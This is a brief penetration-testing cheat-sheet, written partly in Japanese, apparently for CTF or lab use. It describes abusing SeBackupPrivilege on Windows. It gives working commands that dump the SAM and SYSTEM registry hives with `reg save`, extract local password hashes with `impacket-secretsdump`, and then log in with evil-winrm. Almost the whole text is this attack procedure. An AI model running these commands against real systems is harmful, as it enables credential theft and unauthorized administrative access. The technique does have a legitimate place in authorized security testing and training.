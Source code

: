 ## Get
`whoami /priv`
```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
## summary
- **SeBackupPrivilege**
  - この権限は、システム バックアップを容易にするために設計されたもので、システムで保護されたファイルへのアクセスを可能にしながら、他の既存の権限をバイパス
## Escalation
#### ready
```
reg save hklm\sam sam
reg save hklm\system system
```
- download to local(Kali)

#### make hash
- option
  - -sam:samファイル指定
  - -system:systemファイル指定
  - local:localで実行する事を指定
```
impacket-secretsdump -sam sam -system system local
```
#### exec
- such as evil-winrm
